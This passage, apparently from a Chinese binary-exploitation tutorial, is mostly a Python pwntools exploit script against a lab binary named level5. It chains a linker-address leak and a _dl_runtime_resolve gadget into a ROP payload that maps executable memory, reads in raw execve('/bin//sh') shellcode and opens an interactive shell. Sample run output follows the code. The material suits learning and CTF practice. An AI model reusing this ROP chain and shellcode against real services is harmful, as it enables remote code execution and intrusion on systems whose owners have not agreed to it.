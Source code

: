 ``` python
print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)    

linker_addr = u64(p.recv(8))
print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  

p.recvuntil("Hello, World\n")   

shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  

#   GADGET
#   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
#   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
#   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
#   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
#   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
#   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
#   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
#   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
#   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
#   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11  

shellcode_addr = 0xbeef0000 

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  

payload3 += p64(shellcode_addr) 

print "\n#############sending payload3#############\n"
p.send(payload3)
sleep(1)    

#raw_input()    

p.send(shellcode+"\n")
sleep(1)    

p.interactive()
``` 
成功pwn后的效果如下：  
```
$ python exp8.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
plt_read: 0x400440
linker_point: 0x600ff8
got_pop_rax_ret: 0x23950
off_mmap_addr: -0x9770
off_pop_rax_ret: 0xc2670

```